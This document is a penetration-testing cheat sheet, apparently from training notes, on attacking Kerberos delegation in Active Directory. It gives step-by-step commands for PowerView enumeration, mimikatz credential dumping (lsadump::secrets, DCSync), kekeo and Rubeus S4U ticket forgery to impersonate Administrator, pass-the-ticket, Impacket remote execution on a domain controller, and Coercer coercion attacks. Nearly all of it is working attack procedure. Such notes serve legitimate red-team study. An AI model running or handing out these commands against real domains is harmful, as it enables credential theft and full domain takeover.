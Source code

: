 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) 

    Import-Module c:\tools\Powerview.ps1

#### 2) 

    Get-NetUser -TrustedToAuth

#### 3) 

    mimikatz.exe

#### 4) 

    token::elevate

#### 5) 

    lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) 

    kekeo.exe

#### 8) 

    tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) 

    tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) 

    mimikatz

#### 11) 

    privilege::debug

#### 12) 

    kerberos::ptt TICKET.KIRBI

#### 13) 

    kerberos::ptt TICKET2.KIRBI

#### 14) 

    klist

## REMOTE EXPLOITATION EXAMPLE:

#### 1) 

    Impacket-getST -k -impersonate Administrator -spn CIFS/DC.DOMAIN.LOCAL DOMAIN.LOCAL/USERNAME

#### 2) 

    export KRB5CCNAME=Administrator.ccache

#### 3) 

    impacket-wmiexec DOMAIN.LOCAL/Administrator@DC.DOMAIN.LOCAL -k -no-pass

# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |

# Coercing Attacks & Unconstrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetComputer -Unconstrained \| select samaccountname`       | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                           | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
